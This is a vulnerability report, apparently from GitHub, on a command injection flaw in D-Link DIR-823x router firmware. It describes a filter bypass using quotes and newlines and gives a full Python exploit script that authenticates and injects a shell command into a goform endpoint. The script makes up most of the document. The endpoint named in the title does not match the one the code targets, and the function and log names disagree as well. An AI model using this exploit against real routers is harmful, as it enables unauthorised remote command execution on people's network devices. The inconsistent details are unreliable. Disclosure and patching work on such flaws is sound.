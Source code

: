 # DIink-DIR-823x/goform/set_server_settings command execution vulnerability

Vulnerability Vendor: D-Link Technology Co., Ltd.

Official Website: https://www.dlink.cn

Affected Device Type: Network Device

Affected Product: Dlink-DIR-823x

Affected Product Versions: DIR-823x 250416, 240802, 240126

Is This a Product Component Vulnerability?: No

## **I. Vulnerability Overview**

**The D-Link DIR-8****23x** is a wireless router product released by D-Link.

The D-Link DIR-8****23x has a command execution vulnerability. This vulnerability stems from the file /usr/sbin/goahead not fully validating input parameters when processing environment variables. An attacker can exploit this vulnerability to construct malicious requests and execute arbitrary commands on the system.

## II. **Vulnerability Details**

Router firmware download: [D-Link | Home Networking](https://www.dlink.com.cn/home/product?id=3118)

ida analyzed the binary file /usr/sbin/goahead, located set_server_settings, and manually restored the symbol table. The program first receives three parameters, and sys_cmd is the location of the dangerous function.

![image-20250908170636713](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250908170636713.png)

First, there's a check, but it's incomplete. It only checks for the seven strings "()'{};`". Versions 240802 and 240126 aren't checked at all, so command injection is possible. I'm analyzing version 250416, which has a patch. We need to bypass it by using quotes and \n to inject \"\n{cmd}\n\. This way, the attack can bypass this check.

![image-20250908200557880](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250908200557880.png)

Subsequently, sub_412E7C assigns the string directly to system for execution, resulting in command injection. This part is injected.

![img](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/wps5.jpg) 

 

 POC

```
import requests
import logging
import argparse
import re
import hmac
import hashlib


logging.basicConfig(level=logging.DEBUG)


def extract_cookies_from_response(response):
    cookies = response.headers.get('Set-Cookie', '')
    sessionid = re.search(r'sessionid=([^;]+)', cookies)
    token = re.search(r'token=([^;]+)', cookies)
    sessionid = sessionid.group(1) if sessionid else None
    token = token.group(1) if token else None
    return sessionid, token

def send_get_login_page(session, host_ip):
    url = f"http://{host_ip}/login.html"

    headers = {
        "Host": host_ip,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1"
    }

    response = session.get(url, headers=headers)
    
    if response.status_code == 200:
        sessionid, token = extract_cookies_from_response(response)
        return sessionid, token
    else:
        logging.error("Failed to get login page.")
        logging.error(f"Status code: {response.status_code}")
        logging.error(f"Response: {response.text}")
        return None, None

def hash_password(password, token):
    hashed = hmac.new(token.encode(), password.encode(), hashlib.sha256).hexdigest()
    return hashed

def send_login_request(session, host_ip, username, hashed_password, sessionid, token):
    url = f"http://{host_ip}/goform/login"
    
    headers = {
        "Host": host_ip,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Origin": f"http://{host_ip}",
        "Connection": "close",
        # "Referer": f"http://{host_ip}/login.html",
        "Cookie": f"sessionid={sessionid}; token={token}"
    }
    
    payload = {
        "username": username,
        "password": hashed_password,
        "token": token
    }
    
    response = session.post(url, headers=headers, data=payload)
    
    return response

def send_diag_traceroute_request(session, host_ip, sessionid, token):
    url = f"http://{host_ip}/goform/set_switch_settings"
    headers = {
        "Host": host_ip,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Origin": f"http://{host_ip}",
        "Connection": "close",
        # "Referer": f"http://{host_ip}/login.html",
        "Cookie": f"sessionid={sessionid}; token={token}"
    }
    
    payload = {
        "port": "\"\nls\n\"",
        "token": token
    }
    

    response = session.post(url, headers=headers, data=payload)
    
    return response

def main():
    session = requests.session()

    parser = argparse.ArgumentParser(description='HTTP POST Request Example.')
    parser.add_argument('-H', '--host', metavar='host', default='192.168.1.1', help='Host IP address.')
    parser.add_argument('-u', '--username', metavar='Username', required=True, help='Login username.')
    parser.add_argument('-p', '--password', metavar='Password', required=True, help='Login password.')

    args = parser.parse_args()

    logging.info(f'Host IP: {args.host}')

    # Get login page
    sessionid, token = send_get_login_page(session, args.host)
    if sessionid and token:
        logging.info(f"GET login page request sent successfully. sessionid={sessionid}, token={token}")
        
        # Hash the password
        hashed_password = hash_password(args.password, token)
        
        # Send login request
        response = send_login_request(session, args.host, args.username, hashed_password, sessionid, token)
        if response.status_code == 200:
            logging.info("Login request sent successfully.")
            logging.debug(f"Response: {response.text}")
            
            # Extract updated sessionid and token from login response
            sessionid, token = extract_cookies_from_response(response)
            
            # Send LAN settings request
            response = send_diag_traceroute_request(session, args.host, sessionid, token)
            if response.status_code == 200:
                logging.info("LAN settings request sent successfully.")
                logging.debug(f"Response: {response.text}")
            else:
                logging.error("Failed to send LAN settings request.")
                logging.error(f"Status code: {response.status_code}")
                logging.error(f"Response: {response.text}")
        else:
            logging.error("Failed to send login request.")
            logging.error(f"Status code: {response.status_code}")
            logging.error(f"Response: {response.text}")
    else:
        logging.error("Failed to retrieve sessionid and token from login page.")

if __name__ == "__main__":
    main()
```
Successfully executed

![image-20250908201409241](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250908201409241.png)

## **III. Vulnerability Impact**

1. An attacker can exploit this vulnerability for remote command execution
2. An attacker can exploit this vulnerability for remote code execution

## **IV. Mitigation**

1. Contact the relevant vendor to obtain the security patch and promptly address the vulnerability.
2. Contact the relevant security vendor to promptly update the security blocking policy.
3. Temporarily perform a security check on the interface parameters.
‍